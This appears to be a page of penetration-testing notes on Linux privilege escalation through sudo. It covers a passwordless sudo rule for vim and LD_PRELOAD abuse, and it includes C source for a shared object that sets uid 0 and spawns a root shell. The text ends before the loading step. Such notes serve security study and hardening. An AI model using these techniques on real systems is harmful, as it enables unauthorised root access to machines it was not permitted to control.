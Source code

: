 ## Sudo

The `sudo` command allows non-root users to run commands that would normally require super user privileges.  Its configuration file is `/etc/sudoers` and lists user's permissions while using `sudo`.&#x20;

### NOPASSWD

A `sudo` configuration that allows a user to execute specified commands with another user privileges without knowing the password.

```bash
$ sudo -l

User zweilos may run the following commands on kali:
    (root) NOPASSWD: /usr/bin/vim
```

In this example the user `zweilos` can run `vim` as `root`. Any files can now be read or written to, for example adding an SSH key into the `/root/.ssh` directory. `vim` can also be used to gain a root shell or run programs with `!<command>`.

### LD\_PRELOAD

**LD\_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library, including the C runtime library (libc.so). This is called preloading a library.

1. Check if `LD_PRELOAD` is explicitly defined in the `/etc/sudoers` file:

```bash
#Check in /etc/sudoers for a line with env_keep += LD_PRELOAD
Defaults        env_keep += LD_PRELOAD

# or check with sudo -l
user@debian:~$ sudo -l 
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD
```

&#x20; 2\. Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```
